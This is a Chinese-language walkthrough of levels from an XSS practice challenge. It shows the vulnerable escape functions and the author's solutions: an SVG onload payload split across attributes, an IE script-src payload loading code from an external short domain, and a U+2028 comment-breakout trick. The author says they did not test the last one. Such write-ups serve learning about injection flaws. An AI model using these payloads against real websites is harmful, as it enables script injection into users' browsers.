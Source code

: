 ```
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}
```
这道题目开始没有看懂，题目的原意是根据#分离，每一部分赋给一个title，如果超过12字符，则需要截取前12个，这里使用的是js注释，使代码连起来。
```
"><svg/a=#"onload='/*#*/prompt(1)'
```
这样就形成：
```
<p class="comment" title=""><svg/a="></p>
<p class="comment" title=""onload='/*"></p>
<p class="comment" title="*/prompt(1)'"></p>
```
这里不能使用/**/闭合第一行和第二行之间的东西，是因为SVG文件中可以通过任意元素的onload事件执行Javascript,且不需要用户交互。例如：
```
<svg xmlns="http://www.w3.org/2000/svg"><g onload="javascript:alert(1)"></g></svg>
```
这里可以看到只有让前面的svg闭合，才能在不用交互的情况下执行prompt(1)。
[原址在这里](http://html5sec.org)

还有一种ie环境下会执行的：
```
"><script x=#"async=#"src="//⒛₨
```
小技巧：IE下可以使用##async##来加载不需要闭合的script文件.如下：
```
<script src="test.js" async>
```

## level8 ##
```
function escape(input) {
    // prevent input from getting out of comment
    // strip off line-breaks and stuff
    input = input.replace(/[\r\n</"]/g, '');

    return '                                \n\
<script>                                    \n\
    // console.log("' + input + '");        \n\
</script> ';
}        
```
这里过滤了两个换行符，所以用到了一个特殊的编码技巧：
- <LS>是U+2028，是Unicode中的行分隔符。
- <PS>是U+2029，是Unicode中的段落分隔符。
而且-->在js中可以当注释使用，[参考资料](https://javascript.spec.whatwg.org/#comment-syntax)
于是构造答案是这样的：
```
<script>
// console.log("
prompt(1)
-->");
</script>
```
可惜我也打不过这两个符号，所以不知道是不是这样的...
```
[U+2028]prompt(1)[U+2028]-->
```
